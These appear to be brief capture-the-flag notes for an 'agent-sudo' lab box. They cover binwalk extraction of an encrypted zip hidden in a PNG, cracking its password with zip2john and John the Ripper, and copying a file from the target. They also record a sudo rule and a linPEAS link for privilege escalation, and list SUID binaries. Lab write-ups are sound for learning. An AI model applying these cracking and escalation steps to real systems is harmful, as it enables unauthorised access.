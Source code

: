 `$ binwalk cutie.png `
```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive
```

`$ binwalk -e cutie.png`

`$ zip2john 8702.zip > hash`

`$ john --wordlist=/usr/share/wordlists/rockyou.txt hash`

`alien            (8702.zip/To_agentR.txt)`

### Escalation

`$ scp james@TARGET_IP:Alien_autospy.jpg .`


`$ sudo -l`
```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/builder/linpeas_base.sh

`uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)`

`AdminIdentities=unix-group:sudo;unix-group:admin`


`$ find / -perm -4000 2>/dev/null`
```
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/at
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
/bin/mount
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
```